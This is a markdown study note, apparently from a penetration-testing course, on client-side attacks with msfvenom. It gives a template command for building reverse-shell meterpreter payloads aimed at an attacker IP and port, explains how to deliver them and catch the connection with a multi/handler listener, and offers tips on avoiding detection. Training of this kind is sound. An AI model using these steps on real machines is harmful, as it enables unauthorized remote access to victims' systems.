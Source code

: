 # Generating Payloads With Msfvenom

## Client-side Attacks

+ A client-side attack is an attack vector that involves coercing a client to execute a malicious payload on their system that consequently connects back to the attacker when executed.

+ Client-side attacks typically utilize various social engineering techniques like generating malicious documents or portable executables (PEs).

+ Client-side attacks take advantage of human vulnerabilities as opposed to vulnerabilities in services or software running on the target system.

**Note**: There's a critical decision depending on the type of system you are targeting. If you are targeting a server that is running on a networking and it is providing services to other hosts, you need to approach the situation with server side attacks, targeting the services directly, like web, ftp or ssh servers. If you are target an end user system, like a workstation or laptop, you need to use client side attacks, where you'll have to generate malicious payloads and make use of a diverse set of social engineering techniques.

+ Given that this attack vector involves the transfer and storage of a malicious payload on the client’s system (disk), attackers need to be cognisant of AV detection.

## Msfvenom

+ Msfvenom is a command line utility that can be used to generate and encode MSF payloads for various operating systems as well as web servers.

+ Msfvenom is a combination of two utilities, namely; msfpayload and msfencode.

**Note**: Msfvenom comes prepackaged with the metasploit framework, so there is no need to install it.

+ We can use Msfvenom to generate a malicious meterpreter payload that can be transferred to a client target system. Once executed, it will connect back to our payload handler and provide us with remote access to the target system.

## Laboratory

For this technical demonstration we won't need a lab environment. We can follow along using a simple kali virtual machine.

- Run `msfvenom` to check some options and a little bit of information about the utility. With msfvenom we can generate staged and non-staged payloads.

- We can list all the payloads using `msfvenom --list payloads`. There's plenty of payloads we can choose from. However, we will focusing on meterpreter payloads to work in conjunction with the metasploit framework. Note that we can differentiate between a x64 payload and a x86 by reading the name. While x86 has a simple name, the x64 version of the payload specifies it in the name. Sometimes the payload also specifies the x86 arch. We can also differentiate between a staged and non-staged payload by looking at the last part of the name. There is a slash between the payload type and the protocol to be used in staged payloads `windows/x64/meterpreter/reverse_http` and it is not present on non-staged payloads `windows/x64/meterpreter_reverse_http`.

**Note**: Take into consideration that x64 payloads will never run in x86 arch. It is a safe play if we use the 32 bit payload if we are not sure if the target is running x64 or x86.

**Note**: Remember that connections that are directed to the attacker machine could be a bit suspicious in logs and networks. So, for example, if you are trying to connect via reverse http in a network that works over https, the best option would be to mask the connection using reverse https instead.

- To generate a malicious payload, we can run `msfvenom -a $ARCH -p $PAYLOAD_NAME LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT -f $FILE_FORMAT > /path/to/new/payload.$FILE_FORMAT` where $ARCH could be x64 or x86 and the $PAYLOAD_NAME should be one of the list we saw previously. The file format can be pass as argument as well and the output name should match the format specified. With this option the payload will be raw, so it won't be encoded. We could also specify the platform it should target, but if not specified, it will fall to the platform specified in the name.

**Note**: The most important things you must specify when crafting the payload is the payload name and the architecture.

**Note**: You cannot change payload architecture or options after creation. You can only create new payloads as needed.

- We can list all formats by running `msfvenom --list formats` notice we have binaries and not compiled payloads.

**Note**: When crafting linux binary payloads, they don't need extension at all as they could be executed right away.

- To transfer the malicious payloads to the target machine, in this case we will start with windows. We need to have a windows 7 machine in the same network as our kali machine. We are going to setup a simple http web server and try to download the payloads to the windows machine from a web browser. Once we setup the web server, we are going to set up the listener using the msfconsole module `multihandler`. We only need to run `use multi/handler` inside the msfconsole and change the payload to the payload we crafted using msfvenom. And we also need to configure the LHOST and LPORT we configured in the payload with msfvenom.

**Note**: When using meterpreter payloads, we need to use the multihandler module to properly handle the connection. Simpler handlers like netcat could not work properly.

- From the windows target machine, enter the browser and download the payloads. Execute them and then you should see something happening on your kali machine, it should open a meterpreter session on the multihandler.
